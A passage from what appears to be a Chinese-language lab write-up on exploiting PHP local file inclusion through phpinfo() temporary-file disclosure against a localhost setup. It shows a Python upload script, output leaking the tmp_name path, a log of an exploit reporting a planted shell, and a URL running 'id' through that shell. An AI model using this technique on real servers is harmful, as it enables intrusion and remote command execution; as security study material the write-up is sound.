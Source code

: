     ```

得到tmp_name 路径

0x03 python脚本 upload file
=====

```
import requests

host = '127.0.0.1'
url = 'http://{ip}/LFI_phpinfo/phpinfo.php'.format(ip=host)
file_ = '/var/www/LFI_phpinfo/file.txt'

response = requests.post(url, files={"name": open(file_, 'rb')})

print(response.text)

```

*   部分返回结果
    
    ```
    <tr><td class="e">_FILES["name"]</td><td class="v"><pre>Array
    (
        [name] =&gt; file.txt
        [type] =&gt; 
        [tmp_name] =&gt; /tmp/php7EvBv3
        [error] =&gt; 0
        [size] =&gt; 33
    )
    
    ```

0x04 本地搭建环境
=====

*   get shell
    
    ```
    $ python lfi_phpinfo.py 127.0.0.1
    
    LFI with phpinfo()
    ==============================
    INFO:__main__:Getting initial offset ...
    INFO:__main__:found [tmp_name] at 67801
    INFO:__main__:
    Got it! Shell created in /tmp/g
    INFO:__main__:Wowo! \m/
    INFO:__main__:Shutting down...
    
    ```
*   firefox 访问
    
    ```
    http://127.0.0.1/LFI_phpinfo/lfi.php?load=/tmp/gc&f=id
    